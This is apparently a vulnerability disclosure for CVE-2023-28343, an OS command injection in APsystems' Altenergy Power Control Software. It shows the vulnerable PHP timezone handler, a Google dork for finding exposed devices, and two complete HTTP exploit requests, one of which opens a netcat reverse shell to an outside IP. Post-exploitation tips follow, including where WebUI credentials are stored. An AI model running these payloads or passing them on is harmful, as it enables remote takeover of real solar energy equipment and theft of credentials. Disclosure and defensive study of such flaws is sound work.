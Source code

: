 ## title : OS command injection affects "Altenergy Power Control Software"
### SW ver: C1.2.5
### Vendor:  https://apsystems.com/
### CVE: CVE-2023-28343
### Google Dork: intitle:"Altenergy Power Control Software"
### Affected device: ENERGY COMMUNICATION UNIT
![Alt Text](https://www.ecodirect.com/v/vspfiles/photos/APSYSTEMS-YC500-ECU-2T.jpg)

## POC Video :
<video src="POC.mp4" width="320" height="240" controls></video>

## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
   public function set_timezone()
    {
        $results = array();

        //ΦÄ╖σÅûΘí╡Θ¥óΘÇëµï⌐τÜäµù╢σî║
        $timezone = $this->input->post('timezone');
        if(strlen($timezone) == 0)
                $timezone = "Asia/Taipei";

        //Φ«╛τ╜«linuxτ│╗τ╗ƒµù╢σî║
        $cmd = "cp /usr/share/zoneinfo/$timezone /etc/localtime";
        system($cmd);

        //σ░åµù╢σî║Σ┐¥σ¡ÿσê░Θàìτ╜«µûçΣ╗╢
        $fp = @fopen("/etc/yuneng/timezone.conf",'w');
        if($fp){
            fwrite($fp, $timezone);
            fclose($fp);
        }

```

## Exploit : 


HTTP request : 
```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`mknod /tmp/backpipe p `
```
HTTP request : 

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`/bin/sh 0</tmp/backpipe | nc 156.197.154.12 4444 1>/tmp/backpipe`

```
POC : 

![Alt Text](POC.png)

** note **
- please use the following command after getting shell to avoid distorying the WEBUI.  
"echo Asia/Taipei > /etc/yuneng/timezone.conf"  

## Important files to check :  
- /etc/yuneng/passwd.conf this file contains the credentials for the WebUI.  
  
##References:  
- https://nvd.nist.gov/vuln/detail/CVE-2023-28343  
- https://github.com/advisories/GHSA-77pg-3832-hjf8  

